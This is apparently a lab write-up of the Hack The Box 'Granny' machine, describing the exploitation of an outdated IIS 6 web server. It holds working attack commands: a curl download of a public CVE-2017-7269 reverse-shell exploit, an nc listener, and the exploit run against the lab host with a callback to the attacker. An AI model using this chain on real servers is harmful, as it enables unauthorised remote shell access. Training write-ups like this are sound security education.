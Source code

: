 We have the version of the web server, which is very old (2003), let's search for known exploit.

![Searchsploit IIS](/assets/imgs/granny/search_iis.PNG)

Nice, there is some ! I don't care about the Denial of Service, I'm interested in the Remote Buffer Overflow and for the Remote Authentication Bypass, I'll see later if the Buffer Overflow isn't working. Download the exploit :

```
searchsploit -m windows/remote/41738.py
```

Read the exploit code, but it only execute the calc.exe as say in comments.

```
It will launch a calc.exe which shows the bug is really dangerous.
```

So let's search for another script via Google. I found this repository :

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

Download the exploit code :

```
curl https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o exploit.py
```

Now to the exploit !

## Exploit

------

First launch a nc listener :

```
nc -lvp 1234
```

And the exploit :

```
python exploit.py 10.10.10.15 80 10.10.14.10 1234
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
```